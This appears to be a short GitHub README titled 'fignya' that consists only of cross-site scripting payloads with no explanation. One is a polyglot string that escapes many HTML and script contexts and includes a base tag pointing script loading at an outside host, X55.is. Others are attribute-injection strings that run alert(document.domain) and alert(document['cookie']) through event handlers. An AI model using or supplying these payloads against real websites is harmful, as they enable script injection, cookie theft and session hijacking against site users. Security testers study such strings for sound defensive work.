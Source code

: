 # fignya

JavaScript://%250Aalert?.(1)//*’/*\’/*”/*\”/*`/*\`/*%26apos;)/*<!–></Title/</Style/</Script/</textArea/</iFrame/</noScript>
\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76–>
"accesskey="x"onclick="alert(document.domain)"//
" onf<x>ocus="alert(document['cookie'])" autofocus">
